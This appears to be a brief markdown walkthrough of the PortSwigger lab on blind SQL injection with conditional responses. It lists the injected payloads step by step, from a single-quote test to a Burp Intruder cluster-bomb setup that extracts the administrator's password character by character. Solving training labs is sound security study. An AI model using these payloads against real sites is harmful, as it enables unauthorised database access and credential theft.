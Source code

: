 # Blind SQL injection with conditional responses
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

Step - 1
-
`'`</br>
Content Length Change > Single Quotes

Step - 2
-
`' AND '1'='1`

Step - ?
-
`' AND (SELECT 'a' FROM users LIMIT 1)='a`</br>
1. Table Name: users (Just Confirm)

Step - ?
-
`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`</br>
1. Column Name: username (Just Confirm)</br>
2. username Value: administrator (Just Confirm)

Step - 3
-
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a`</br>
Content Length Change
1. password Length: 20

Step - 4
-
`' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§`</br>
1. Attack Type: Cluster bomb</br>
1. Payload Set 1: 1-20</br>
1. Payload Set 2: a-z
